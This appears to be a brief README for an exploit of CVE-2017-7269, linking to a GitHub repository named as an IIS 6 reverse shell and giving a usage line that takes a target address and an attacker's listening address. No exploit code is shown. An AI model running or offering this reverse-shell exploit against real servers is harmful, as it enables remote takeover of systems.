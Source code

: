 # CVE-2017-7269
source: https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell

Usage:
```python
python CVE-2017-7269.py <ip> <port> <attacking-ip> <attacking-port>
```
